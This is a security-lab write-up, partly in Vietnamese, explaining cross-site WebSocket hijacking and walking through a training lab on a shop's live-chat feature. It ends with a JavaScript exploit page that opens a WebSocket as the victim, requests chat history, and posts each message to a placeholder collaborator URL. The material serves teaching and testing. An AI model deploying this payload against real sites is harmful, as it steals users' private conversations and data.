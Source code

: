 - An attacker can create a malicious web page on their own domain which establishes a cross-site WebSocket connection to the vulnerable application. The application will handle the connection in the context of the victim user's session with the application.

- The attacker's page can then send arbitrary messages to the server via the connection and read the contents of messages that are received back from the server. This means that, unlike regular CSRF, the attacker gains two-way interaction with the compromised application.

- Since a cross-site WebSocket hijacking attack is essentially a CSRF vulnerability on a WebSocket handshake, the first step to performing an attack is to review the WebSocket handshakes that the application carries out and determine whether they are protected against CSRF.

- In terms of the normal conditions for CSRF attacks, you typically need to find a handshake message that relies solely on HTTP cookies for session handling and doesn't employ any tokens or other unpredictable values in request parameters.

- For example, the following WebSocket handshake request is probably vulnerable to CSRF, because the only session token is transmitted in a cookie:

  ```
  GET /chat HTTP/1.1
  Host: normal-website.com
  Sec-WebSocket-Version: 13
  Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
  Connection: keep-alive, Upgrade
  Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
  Upgrade: websocket
  ```

  NOTE: The Sec-WebSocket-Key header contains a random value to prevent errors from caching proxies, and is not used for authentication or session handling purposes.

### Lab: Cross-site WebSocket hijacking

- Tương tự các bài lab trước, ta cần để ý chức năng Live chat của website shopping này:
  
  <img width="1919" height="932" alt="image" src="https://github.com/user-attachments/assets/20d1d4f9-8baa-4c3a-b8d9-06f6d5244875" />

- Thực hiện gửi một message bất kỳ lên live chat. Sau đó load lại trang Live chat.

- Tiến hành kiểm tra trong WebSocket history của Burp Suite, ta nhận thấy có điểm đặc biết là client app gửi một lệnh là "READY" lên server để lấy lại nội dung đoạn chat trước đó của người dùng:

  <img width="1919" height="926" alt="image" src="https://github.com/user-attachments/assets/ed6ed544-7000-4384-812d-627f482f5fbb" />

- Trong phần HTTP history ta lại để ý thấy phần request của quá trình bắt tay WebSocket của chức năng Live chat, ta thấy nó chỉ chứa session cookie của user, chứ không có CSRF tokens &rarr; có thể lợi dùng để tấn công CSWSH.

  <img width="1405" height="718" alt="image" src="https://github.com/user-attachments/assets/68acc5c1-f8f8-402a-ae6a-cac54afb6001" />

- Trong exploit server, ta thực hiện tạo một file /exploit với nội dung phần body là đoạn mã JS như sau:

  ```
  <script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
  </script>
  ```
